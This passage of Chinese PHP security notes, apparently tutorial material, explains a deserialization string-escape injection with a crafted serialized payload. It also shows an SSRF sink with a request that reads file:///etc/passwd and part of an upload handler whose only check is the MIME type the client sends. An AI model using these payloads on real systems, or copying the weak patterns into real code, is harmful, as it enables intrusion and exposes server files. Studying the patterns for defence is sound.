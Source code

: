 ```PHP
    public function __construct($s){
        $this->s = $s;
    }

    public function __destruct(){
        echo $this->str; // str为对象, 将对象作为字符串输出调用_tostring
    }
}
$ser = serialize(new C($_GET['c']));
// $_GET['c']: ";s:3:"str";O:1:"B":1:{s:1:"b";s:7:"phpinfo";}}绕过
// $ser: O:1:"C":2:{s:1:"s";s:94:"";s:3:"str";O:1:"B":1:{s:1:"b";s:7:"phpinfo";}}";s:3:"str";N;}
$data = str_ireplace("\0", "00", $ser); // 不区分大小写 字符串替换
// $data: O:1:"C":2:{s:1:"s";s:94:"0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000";s:3:"str";O:1:"B":1:{s:1:"b";s:7:"phpinfo";}}";s:3:"str";N;}
unserialize($data);
```

此时构建的结构为：

```PHP
O:1:"C":2:{
    s:1:"s";s:94:"0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000";
    s:3:"str";O:1:"B":1:{
        s:1:"b";s:7:"phpinfo";
    }
} ";s:3:"str";N;} 忽略了
```

### SSRF漏洞

**漏洞点**

```PHP
$url = $_GET['url'];
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
$res = curl_exec($ch); // 获取指定 URL 内容并输出
```

**特殊文件协议**

```bash
http://target.com/script.php?url=file:///etc/passwd #尝试让服务器本身执行命令
```

### 文件上传漏洞

**文件操作**

```PHP
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    
    $uploadDir = "uploads/"; // 上传目录
    if (!file_exists($uploadDir)) {
        mkdir($uploadDir, 0777, true); // 创建目录
    }

    if (!empty($_FILES['image']['name'])) {
        // $_FILES 超级全局数组, 专用于处理文件上传
        $fileName = basename($_FILES['image']['name']); // 文件名
        
        $allowedTypes = ['image/jpeg', 'image/png', 'image/gif']; // 文件验证
        $fileType = $_FILES['image']['type'];
        if (!in_array($fileType, $allowedTypes)) {
            die('Error: Unsupported file type.');
        }
```
